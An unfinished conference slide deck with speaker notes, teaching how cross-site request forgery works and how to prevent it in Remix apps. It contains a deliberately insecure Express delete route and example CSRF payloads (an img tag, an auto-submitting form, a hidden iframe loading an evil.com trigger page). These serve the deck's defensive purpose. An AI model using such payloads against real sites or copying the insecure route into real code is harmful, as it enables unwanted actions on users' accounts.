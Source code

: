 
## Avoiding CSRF with Remix

---

### About me

@larowlan

Note:

- Senior Developer at PreviousNext
- PHP Development for 22 years
- Major contributor to Drupal, part of the Drupal security team
- Lots of Javascript last 4-5 years

---

### WTFBBQ is CSRF

Note:

- Like most security exploits, it has a cool acronym
- Let's start by talking about what it's not

---

### <del>Crack Squad Rambo Ferrets</del>

---

### <del>Co-ordinated Sentient Roomba Fleet</del>

---

### <del>Collection of Striped Rooster Feathers</del>

---

### Cross Site Request Forgery

Note:

- And I know you're saying, yes those are English words, but what do they mean

---

### Cross Site Request Forgery

> Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated

https://owasp.org/www-community/attacks/csrf

---

### Simplest (worst) example

<pre class="fragment fade-in-then-out">
    <code class="language-javascript hljs">
        import express from "express"
        import { checkLogin } from "@app/user/auth"
        import { favouritesRepository } from "@app/model/favourites"
        const app = express()
    
        app.get('/favourites/delete/:favouriteId', (req, res) => {
            if (!checkLogin()) {
                return res.sendStatus(403);
            }
            favouritesRepository.deleteById(req.params.favouriteId)
            res.send('OK!')
        })
    </code>
</pre>

Note:
- And before you say no-one would right that code, I've seen this in apps I've audited
- Obviously the first thing wrong here it is using GET!
- But there's no check that the user intended to perform this action if we switch it to POST

---

### Exploiting the simple example

<pre class="fragment fade-in-then-out">
<code class="language-html hljs">
<img src="https://yoursite.com/favourites/delete/3" />
</code>
</pre>

Note:
- So this is fairly low impact, its deleting a favourite, but what if it was a more important action?

---

### What if we used POST?

<pre class="fragment fade-in-then-out">
<code class="language-html hljs">
<form id="form" action="https://yoursite.com/favourites/delete/3">
    <input name="favouriteId" value="3" />
    <input type="submit" />
</form>
<script type="text/javscript">
    window.onload = function() {
      document.getElementById('#form').submit();
    };
</script>
</code>
</pre>

Note:
- Sure this ends up on your site so the user has some idea

---

### Obfuscating further

<pre class="fragment fade-in-then-out">
<code class="language-html hljs">
<!-- Visited site -->
<iframe height="0" width="0" src="https://evil.com/trigger.html" />

<!-- trigger.html -->
<form id="form" action="https://yoursite.com/favourites/delete/3">
    <input name="favouriteId" value="3" />
    <input type="submit" />
</form>
<script type="text/javscript">
    window.onload = function() {
      document.getElementById('#form').submit();
    };
</script>
</code>
</pre>

---

### How does this work?

<ul>
<li class="fragment fade-in-then-out">🤔 If you think about it, that's how the web works</li>
<li class="fragment fade-in-then-out">🍪 Cookies are baked into its DNA</li>
</ul>

Note:
- Its just links or imgs in the case of GET - so that's why we don't use GET for mutations
- Its just forms in the case of POST - so that's why you need CSRF protection

---

### What about CORS?

<ul>
<li class="fragment fade-in-then-out">❌ <code>Access-Control-Allow-Origin: *</code></li>
<li class="fragment fade-in-then-out">📒 https://jakearchibald.com/2021/cors/</li>
</ul>

Note:
- If you've been building apps with Javascript for some time, you've probably heard of CORS
- Cross Origin Resource Sharing
- If you're configuring CORS with * you're basically in the same boat
- CORS is to prevent this happening via Javascript, e.g. with fetch
- How to Win at CORS is everything you need to know about getting it right

---

### Cookie level protection

<ul>
<li class="fragment fade-in-then-out">It depends on your cookies 🍪</li>
<li class="fragment fade-in-then-out">Specifically the SameSite attribute</li>
<li class="fragment fade-in-then-out">Strict <pre>Set-Cookie: SESSIONID=xxxxx; SameSite=Strict</pre></li>
<li class="fragment fade-in-then-out">Lax or None</li>
</ul>

Note:
- If you've got your cookies set to Strict, you're OK, however anyone landing on a page from another site will appear to be logged out - fine for banks
- Particularly difficult for oauth flows

---

### Enter Remix

Note:
- Remix gets you thinking about actions in terms of the building blocks of the web, forms.
- So because we're submitting forms via straight up submit again, we need to think about CSRF if we've not got our cookies configured to SameSite: strict

---

### Remix example

@todo screenshots

Note: 
- Here I've setup the jokes example app
- There's a delete button on each joke

---

### Crafting the attack

todo show the demo here

Note:
- Here's the attack code
- Trick a logged in user into visiting the page
- Voila the joke is deleted without the user being aware
- Big deal is a joke, but what it was a banking transaction or something valuable?

---

### Mitigations

Enter the <em>Synchronizer Token Pattern</em>

Note:
- @todo describe the mechanics here
- form approach, custom header approach (even better)

---

### Implementing for Remix

@todo code samples

---

### 🚧 Warning: opinions ahead

---

### Remix needs this baked in

TODO update link
<ul>
<li class="fragment fade-in-then-out">https://github.com/remix-run/remix/issues/XXX</li>
</ul>

Note:
- I think Remix should bake this in using the more secure custom request
- It should be easy to generate a CSRF token on each form render, and attach it to the request
- The clientside code should handle sending it a custom header
- The action handler on the backend should validate it and reject invalid values
- @todo add an issue to add it

---

### Credits

- https://flickr.com/photos/tgerus/3807995646
- http://slides.com/gaborhojtsy/state-of-drupal-10-readiness-sept-2021
